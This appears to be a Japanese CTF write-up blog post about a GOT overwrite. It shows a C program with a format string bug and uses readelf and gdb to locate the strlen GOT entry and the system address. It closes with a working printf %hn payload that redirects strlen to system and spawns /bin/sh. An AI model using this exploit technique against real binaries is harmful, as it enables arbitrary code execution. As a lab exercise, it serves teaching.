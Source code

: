 ```yaml
---
layout: post
title: got overrite
date: 2017-04-21 11:42:35
tags: ctf
---
```


```c
#include <stdio.h>
#include <string.h>

int main(int argc, char *argv[]) {
  char str[128];
  fgets(str, 128, stdin);
  printf(str);

  fgets(str, 128, stdin);
  printf("%d\n", strlen(str));
  return 0;
}
```

## 方針

1. printf()でGOTOverWriteをして、strlen()関数をsystem関数に書き換える。
2. 2度目のfgets()でsystem関数の引数を設定
3. strlen(str)でシェルを起動

### GOT領域のアドレスを調べる
```
% readelf -r got

Relocation section '.rel.dyn' at offset 0x31c contains 2 entries:
 Offset     Info    Type            Sym.Value  Sym. Name
08049ffc  00000406 R_386_GLOB_DAT    00000000   __gmon_start__
0804a040  00000805 R_386_COPY        0804a040   stdin@GLIBC_2.0

Relocation section '.rel.plt' at offset 0x32c contains 5 entries:
 Offset     Info    Type            Sym.Value  Sym. Name
0804a00c  00000107 R_386_JUMP_SLOT   00000000   printf@GLIBC_2.0
0804a010  00000207 R_386_JUMP_SLOT   00000000   fgets@GLIBC_2.0
0804a014  00000307 R_386_JUMP_SLOT   00000000   __stack_chk_fail@GLIBC_2.4
0804a018  00000507 R_386_JUMP_SLOT   00000000   strlen@GLIBC_2.0
0804a01c  00000607 R_386_JUMP_SLOT   00000000   __libc_start_main@GLIBC_2.0
```
より、
`0804a018  00000507 R_386_JUMP_SLOT   00000000   strlen@GLIBC_2.0`

### system関数のアドレスを調べる

```
kobad@kobad-virtual-machine ~/pwn> gdb -q got
Voltron loaded.
Reading symbols from got...(no debugging symbols found)...done.
gdb-peda$ b main
Breakpoint 1 at 0x80484f9
gdb-peda$ r
Starting program: /home/kobad/pwn/got
Breakpoint 1, 0x080484f9 in main ()
gdb-peda$ p system
$1 = {<text variable, no debug info>} 0xf7e41940 <system>

```

より、`0xf7e41940 <system>`

### %nフォーマット指定子

printfが出力している文字数をメモリに書き込む

* %n   - 4 byte
* %hn  - 2 byte
* %hhn - 1 byte

`%n$s` - (スタックの?)n番目の値を%s型で表示

## 解答
strlen = 0x0804a018

system = 0xf7e41940

0x0804a018 - 0x0804a019 にsystemの下位4byte

0x0804a01a - 0x0804a01b にsystemの上位4byteを書き込む

0x1940 = 6464 で\x18\xa0\x04\x08\x1a\xa0\x04\x08この分の8byteを引く

0x1940 - 0x08 = 6456

0xf7e4 = 63460 で0x1940を引く

0xf7e4 - 0x1940 = 56996

スタックには8byteずつ積まれていくので、
最初の8byte(\x18\xa0\x04\x08) が11番目

次の8byte(\x1a\xa0\x04\x08) が12番目

11番目の0x0804a018に0xa1940を書き込み(0x0804a018 == 0xa1940ってこと？)、
12番目の0x0804a01aに0xf7e4を書き込む。

これでstrlenがsystem関数に書き換わった。

\nで次のfgets()へいき、/bin/shを与えて、
strlen(/bin/sh) == system(/bin/sh)なのでshellが起動する

`(echo -e '\x18\xa0\x04\x08\x1a\xa0\x04\x08%6456x%11$hn%56996x%12$hn\n/bin/sh'; cat) | ./got `
